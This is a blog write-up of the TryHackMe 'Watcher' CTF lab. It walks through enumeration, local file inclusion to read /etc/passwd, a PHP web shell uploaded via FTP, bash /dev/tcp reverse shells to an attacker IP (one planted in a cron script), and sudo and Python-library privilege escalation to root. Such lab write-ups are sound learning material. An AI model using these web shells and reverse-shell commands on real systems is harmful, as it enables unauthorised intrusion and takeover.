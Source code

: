```yaml
---
title: Watcher | Tryhackme write up
date: 2022-05-13 18:30:00 +0200
categories: [Blog, Writeup]
tags: [writeup, tryhackme, pentesting, penetration, testing, hacking, ethical, sudo privesc, fuzzing, enumeration, local, file, inclusion, LFI, cron job,watcher, medium]
comments: false

---
```


Hi! this is my take on Watcher CTF from TryHackme, the room is simple but very entertaining.
At first it seemed that it was going to be too easy but I liked that there were several privilege escalations and all of them were different.

These are some topic you will see in this room: 
- Directory fuzzing
- Local file inclusion
- Upload malicious file
- Abuse of sudo permissions for privilege escalation
- Abuse of cron job for privilege escalation

# Scanning

To know what os I'm facing i start by running **ping -c 1 <VICTIMIP>**, thanks to the TTL i can guess that this is a Linux box.
I continue by running **Nmap** three times,I am using Syn scan against the whole port range of the victim machine,
which shows me that there are three open ports, 21, 22 and 80.

![First Nmap scan for open ports](/assets/img/watcher/001.PNG)
_Nmap scanning for open ports_

Knowing this I re-launch it with the C and V scripts to find out version and service.

![Second Nmap scan for versions](/assets/img/watcher/002.PNG)
_**-sCV** scan to know versions_
And finally with the **http-enum** script, which uses a small dictionary to fuzz well known routes. 

![Second Nmap scan for versions](/assets/img/watcher/002.PNG)
_**-sCV** scan to know versions_

![Http-enum results](/assets/img/watcher/003.PNG)
_http-enum script results_

There's nothing weird and the discovery of robots.txt its interesting so I'm checking the web and robots.txt now.

![Website homepage](/assets/img/watcher/004.PNG)
_Website homepage_

The web is running with Apache and seems like a Jekyll blog, some buttons are not even working so I'm going straight to robots.txt.

![robots.txt contents](/assets/img/watcher/005.PNG)
_robots.txt contents_
There are 2 file routes inside robots.txt the first one is accessible and it's the first flag, the second one requires permissions that i dont have.

![First flag](/assets/img/watcher/006.PNG)
_First flag_

Looking again at the home page, I see something suspicious in the links of each post, it seems that the web could be vulnerable to LFI(Local File Inclusion)

![Web could be vulnerable to LF](/assets/img/watcher/007.PNG)
_Vulnerable to LFI?_

I'm trying to list /etc/passwd and for that i'm using this route: http://VICTIMIP/post.php?post=../../../../../../etc/passwd. It works!

![/etc/passwd content](/assets/img/watcher/008.PNG)
_Content of /etc/passwd_

I can see that there's three users: **toby, mat and will**.

# Gaining access

I start by showing **/secret_file_do_not_read.txt**, the file i couldn't read before because I had no permissions.
But now with LFI it's easy to see it's contents:

![/secret_file_do_not_read.txt contents](/assets/img/watcher/009.PNG)
_/secret_file_do_not_read.txt contents_

Reading this, I already know what i have to do, i have to login into ftp and try upload a malicious .php file because now i know
where there route to that file is.

The credentials were valid, and now I'm login into ftp, where the **second flag** is located, and a **files** directory next to it.

![Ftp contents](/assets/img/watcher/010.PNG)
_Ftp contents_

I'm next writing my malicious file and uploading it into this files folder.
This is the code I'm using:
```php
<?php
system($_GET['cmd']) 
?>
```
This code permits us to run a command with the GET request variable 'cmd'.
The upload is completed, and i know where the file exactly is.
I show the file with the LFI i used before, running **whoami** with our new cmd variable.

![Remote code execution working](/assets/img/watcher/011.PNG)
_Remote code execution working_

To get a reverse shell, im gonna run this with my new RCE method, and I'm url encoding it:
```bash
bash -c 'bash -i >& /dev/tcp/MYIP/443 0>%1'
```
At the same time I'm listening port 443 with netcat.
```bash
nc -lnvp 443
```
With this i gained access as www-data

![Access gained as www-data](/assets/img/watcher/012.PNG)

_Access gained as www-data_

# Privilege escalation

## First privilege escalation

After treating the terminal to turn it into an interactive one, I run **sudo -l** and see that i can run any command i want as toby without password,
so i run **sudo -u toby bash** and I'm now toby.

![privesc toby](/assets/img/watcher/013.PNG)
_Easy privesc to toby_

## Second privilege escalation

I continue by visiting toby's home and there's a note next to flag 3 and a directory called jobs. This is the content of note.txt

![note.txt content](/assets/img/watcher/014.PNG)
_note.txt content_

There's a cron job running and i guess it's running into jobs directory. There's a file inside jobs directory called **cow.sh**,
it's a script that backups an image into /tmp directory, but i have write permissions, so i change it's contents to this:
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/MYIP/444 0>%1'
```
I'm using port 444 now as I'm still using 443 for the reverse shell I'm actually using. After listening with netcat and waiting a minute, I get a reverse shell as Mat.

![privesc mat](/assets/img/watcher/015.PNG)
_Privesc to Mat_

## Second privilege escalation

As before, the first two things i do is **sudo -l** and visiting my home. I can run python3 with a specific file as will and that file is inside my home.

v![sudo mat](/assets/img/watcher/016.PNG)
_Sudo for mat_

The code of this will_script let's me run three commands, ls, id and cat /etc/passwd, and it does it by calling a function from another script cmd.py.
But I'm realizing that I'm the owner of cmd.py and i can write inside.

![Code permissions](/assets/img/watcher/017.PNG)
_Code of both scripts and permissions_

I'm editing cmd.py code to run a bash instead ls -lah when using 1 as argument, and because i can run it as will, this bash will be as will too.

![new cmd.py](/assets/img/watcher/018.PNG)
_New cmd.py code_
And it works.

![privesc will](/assets/img/watcher/019.PNG)
_Privilege escalation to will_

## Last privilege escalation to root
I struggled a bit with this privilege escalation because I lost like 15min investigating around **adm** group and checking log files from /var/log,
but after a bit i realized that there's nothing there and after cheking some things like sudo -l, SUID files, I found a backups directory inside /opt.
There's a file named key.b64 inside, I'm decoding the content with base 64 and a private key is showing.

![Private ssh key found](/assets/img/watcher/020.PNG)
_Private ssh key found_

After putting the key into an id_rsa file and using it like this from my terminal: **ssh -id id_rsa root@VICTIMIP**

![Access as root](/assets/img/watcher/021.PNG)
_Access as root_

I got access as root!. Flags 4,5,6 and 7 was in /home/toby, /home/mat, /home/will and /root directories respectively, while flag 3 was in /var/www/html/

See you soon and enjoy this nice CTF!
